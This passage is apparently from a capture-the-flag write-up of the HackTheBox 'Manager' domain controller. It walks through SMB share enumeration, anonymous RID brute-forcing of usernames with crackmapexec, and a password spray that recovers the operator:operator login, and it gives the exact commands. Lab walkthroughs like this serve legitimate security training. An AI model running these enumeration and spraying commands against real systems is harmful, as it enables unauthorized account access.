 ```bash
```

- It is a AD environment `dc01.manager.htb` found domain controller
- MS SQL server is running in the on port 1433
- LDAP is running 

# Recon

 Simple content writing non responsive static website, found potential username **Johndue** on website
 
<img  alt="Pasted image 20240316103701" src="https://github.com/berkeley-abc/abc/assets/74102381/c6910aa9-1087-4c23-aef2-6487928279ae">

 Let's enumerate and check if we have any shares publicly available using `smbclient -L 10.10.11.236` and we found 5 shares
 
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```
 
 Lets run `[enum4linux](https://cheatsheet.haax.fr/network/services-enumeration/135_rpc/) 10.10.11.236` and it found we can login using `password` without providing any username, it also found 
- Domain Name : MANAGER
- Domain Sid : S-1-5-21-4078382237-1492182817-2568127209
 domain name is manager.htb:dc01$@MANAGER.HTB
 Everything we tried so far didn't worked for us Let's try to find out list of users using tool **crackmapexec**. `crackmapexec smb manager.htb  -u 'Anonymous' -p ''  --rid-brute `
- here smb for identiofying we are going to use **smb** **-u** for user **-p** for password and **--rind-brute** is to brute everything like users, grougs etc everything
 And boom we got some user names on machine

- Zhong
- Cheng
- Raven
- JinWoo
- ChinHae
- Operator

![Screenshot from 2023-11-08 17-47-05](https://github.com/berkeley-abc/abc/assets/74102381/08f3f4fa-23e1-4ef2-94e0-be914323c528)
 
![Screenshot from 2023-11-08 17-46-17](https://github.com/berkeley-abc/abc/assets/74102381/edd1ec37-979a-4209-bd39-d8597fb95e16)

 Now we have some Valid username on the DC Lets try to perform password spray against it. first lets create a text file in which we will save all these names and we will check every name as a password against every username
 for password spraying we will use again our loving **crackmapexec**. `crackmapexec smb manager.htb -u user.txt -p user.txt --continue-on-success`. here **--continue-on-success** is to keep checking if it find any valid credientials. we found one valid account with password.
	- operator:operator
 